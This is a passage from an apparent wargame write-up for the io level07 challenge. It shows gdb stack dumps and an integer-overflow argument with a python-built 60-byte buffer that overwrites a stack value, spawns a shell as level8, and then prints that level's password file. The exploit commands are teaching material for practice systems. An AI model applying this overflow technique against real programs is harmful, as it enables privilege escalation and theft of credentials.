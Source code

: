     Breakpoint 1, 0x08048462 in main ()
    (gdb) x/20wx 0xbffffbb0
    0xbffffbb0:     0x00000000      0x002c307d      0x00000001      0x000000bf
    0xbffffbc0:     0xbffffdc9      0x08049688      0xbffffbd8      0x080482f0
    0xbffffbd0:     0x080484d0      0x08049688      0xbffffbf8      0x080484e9
    0xbffffbe0:     0xb7fc93c4      0xb7fff000      0x080484db      0x80000010
    0xbffffbf0:     0x080484d0      0x00000000      0x00000000      0xb7e39a63
    (gdb) ni
    0x08048467 in main ()
    (gdb) x/20wx 0xbffffbb0
    0xbffffbb0:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffbc0:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffbd0:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffbe0:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffbf0:     0x080484d0      0x00000000      0x00000000      0xb7e39a63

We successfully overwrote our address! (it was `0x80000010` at `0xbffffbec`). Now let's override the right value:


    (gdb) r -2147483632 $(python -c 'print "A"*60 + "\x46\x4c\x4f\x57"')
    Starting program: /levels/level07 -2147483632 $(python -c 'print "A"*60 + "\x46\x4c\x4f\x57"')
    /bin/bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)

    Breakpoint 1, 0x08048462 in main ()
    (gdb) x/20wx 0xbffffbb0
    0xbffffbb0:     0x00000000      0x002c307d      0x00000001      0x000000bf
    0xbffffbc0:     0xbffffdc9      0x08049688      0xbffffbd8      0x080482f0
    0xbffffbd0:     0x080484d0      0x08049688      0xbffffbf8      0x080484e9
    0xbffffbe0:     0xb7fc93c4      0xb7fff000      0x080484db      0x80000010
    0xbffffbf0:     0x080484d0      0x00000000      0x00000000      0xb7e39a63
    (gdb) ni
    0x08048467 in main ()
    (gdb) x/20wx 0xbffffbb0
    0xbffffbb0:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffbc0:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffbd0:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffffbe0:     0x41414141      0x41414141      0x41414141      0x574f4c46
    0xbffffbf0:     0x080484d0      0x00000000      0x00000000      0xb7e39a63
    (gdb) c
    Continuing.
    WIN!
    process 9299 is executing new program: /bin/bash
    sh: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
    sh-4.3$ whoami
    level7

Nice, let's do that outside of `gdb` now:

    level7@io:/levels$ ./level07 -2147483632 $(python -c 'print "A"*60 + "\x46\x4c\x4f\x57"')
    WIN!
    sh: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
    sh-4.3$ whoami
    level8
    ome/
    sh-4.3$ cat /home/level8/.pass
    VSIhoeMkikH6SGht

> VSIhoeMkikH6SGht
